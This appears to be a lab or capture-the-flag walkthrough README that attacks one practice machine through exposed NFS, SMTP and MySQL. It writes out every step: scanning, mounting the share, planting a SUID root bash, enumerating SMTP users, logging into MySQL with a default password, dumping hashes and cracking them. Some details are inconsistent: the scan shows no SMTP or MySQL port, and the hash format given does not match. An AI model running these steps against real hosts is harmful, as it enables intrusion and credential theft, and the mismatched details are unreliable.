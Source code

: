 # 🔓 PenTest Walkthrough — NFS, SMTP & MySQL Attack

> A step-by-step walkthrough exploiting a vulnerable machine using **NFS**, **SMTP**, and **MySQL** attack techniques. Perfect for CTF training, offensive security learning, or building a technical portfolio.

---

## 🔍 Nmap Discovery

We start by scanning the target machine:

```bash
nmap -sS -sV -O -Pn -p- 10.10.16.13
```

**Scan results:**

- 22/tcp — SSH (OpenSSH 7.6p1 Ubuntu)
- 111/tcp — RPCBind
- 2049/tcp — NFS v3-v4
- 33043/tcp — mountd
- 42457/tcp — nlockmgr
- 46645/tcp — mountd
- 56517/tcp — mountd

---

## 📁 NFS Attack

NFS is exposed and exporting directories without authentication.

### 🔧 Mounting the NFS share:

```bash
showmount -e 10.10.16.13
sudo mount -t nfs 10.10.16.13:/home/user /mnt/nfs
```

---

### ⚙️ Privilege Escalation with SUID Bash

We copy a local Bash binary and apply root privileges using SUID:

```bash
cp ~/Downloads/bash /mnt/nfs
sudo chown root bash
sudo chmod +s bash
```


Then we get a root shell using:

```bash
./bash -p
```


---

## ✉️ SMTP Enumeration

Using Metasploit to enumerate valid SMTP users.

### 🔎 Running smtp_enum module:

```bash
msfconsole
search smtp_enum
use auxiliary/scanner/smtp/smtp_enum
set RHOSTS 10.10.16.13
run
```


---

## 🛢️ MySQL Access

Accessing MySQL with weak credentials:

```bash
mysql -h 10.10.16.13 -u root -p
# password: password
```

Querying version and dumping hashes:

```sql
SELECT @@version;
SELECT * FROM users;
```


Extracted hash:

```
carl:*EA031893AA21444B170FC2162A56978B8CEECE18
```

---

## 🔐 Cracking Hash with John

1. Save the hash to a file:

```bash
echo "carl:*EA031893AA21444B170FC2162A56978B8CEECE18" > hash.txt
```

2. Run John the Ripper:

```bash
john hash.txt --format=raw-sha1 --wordlist=/usr/share/wordlists/rockyou.txt
```


---

## ✅ Conclusion

This target machine highlighted multiple common vulnerabilities:

- Unrestricted NFS → privilege escalation
- Exposed SMTP → user enumeration
- Weak MySQL credentials → credential dumping


